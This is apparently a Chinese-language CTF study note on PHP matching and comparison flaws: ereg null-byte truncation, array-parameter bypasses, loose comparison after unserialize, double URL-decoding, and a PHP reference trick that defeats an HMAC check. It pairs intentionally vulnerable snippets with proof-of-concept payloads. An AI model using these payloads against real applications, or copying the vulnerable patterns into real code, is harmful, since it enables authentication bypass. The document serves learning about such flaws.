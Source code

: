 ```yaml
---
title: "php match or comapre"
date: 2016-03-13 15:28
---
```


# match

## ereg

> int ereg() 返回整数类型

* example

```php
if (ereg ("^[a-zA-Z0-9]+$", $_GET['password']) === FALSE){
	echo '<p>You password must be alphanumeric</p>';
}
else if (strlen($_GET['password']) < 8 && $_GET['password'] > 9999999){
    if (strpos ($_GET['password'], '*-*') !== FALSE){
        die('Flag: ' . $flag);
    }
}
```

* poc 1

```
url: ...?password=1e9%00*-*
```

此处利用 **ereg 经典漏洞**，读到 ** %00 ** 就截止了

* poc 2

```
url: ...?password[]=s
``` 

**传入数组**

* ereg 返回** NULL** ，NULL !== FALSE is true
* strpos 处理数组，也返回 ** NULL **
* strlen 处理数组，同样返回 **NULL**

**比较**

* null 和 任何其他任何类型，比较，转换为 bool， FALSE < TRUE
* array 和  任何其他类型（不包括 object）， 比较， array 总是更大


## loose comparison(== operator) 

* example

```php
$flag='ctf_flag';
$unserialize_str = $_POST['password'];
$data_unserialize = unserialize($unserialize_str);
if($data_unserialize['user'] == '???' && $data_unserialize['pass']=='???')
{
    print_r($flag);
}
```

user, pass 的值是未知的，条件判断时使 $data_unserialize['user']=true ， $data_unserialize['pass']=true 即可

* poc

'''php
$arr =  array();
$arr['user']=TRUE;
$arr['pass']=TRUE;
$seialize_str = serialize($arr);    //a:2:{s:4:"user";b:1;s:4:"pass";b:1;}
$flag='ctf_flag';
$data_unserialize = unserialize($serialize_str);
if($data_unserialize['user'] == '???' && $data_unserialize['pass']=='???')
{
    print_r($flag);
}
'''

## urldecode

> string urldecode() 返回字符串类型 

urldecode 与 $_GET[] $_POST[] $_REQEST[] 联合使用
$_GET[] $_POST[] $_REQEST[] 返回的参数是**已经被解码了**的，在进行 urldecode 相当于 二次 urldecode

* poc

'''php
$username = $_GET['username'];  //url: ...?username=%2561dmin   %61 is a
if (urldecode($username) === "admin"){
    echo "you are admin";
}
'''
## reference

* example

'''php
$auth = $_COOKIE['auth'];
if(get_magic_quotes_gpc())
    $auth = stripslashes($auth);
$auth = unserialize($auth);

if(!is_array($auth))    // hint auth is array
    return false;

$auth['hmac_t'] = sha1(sha1($auth['username'].$auth['hmac_t'].$auth['password']).$secret_salt);

if($auth['hmac_t'] !== $auth['hmac'])
    return false;
'''

* poc

'''php
$a = array("username" => "dragon", "password" => true, "hmac_t" => "0"); 
$a["hmac"] = &$a["hmac_t"]; // key point ****************
$a["hmac_t"]=1; 
echo $a["hmac"]."\n";
echo urlencode(serialize($a)) . "\n";
'''

1.**PHP 是可以直接取 Reference **
则 if !== 的 strict comparison 就 always true 了...因为都是一个** Object **
2.cookie 提交 auth 为 urlencode(serialize($a)) 或 serialize($a) 均可 
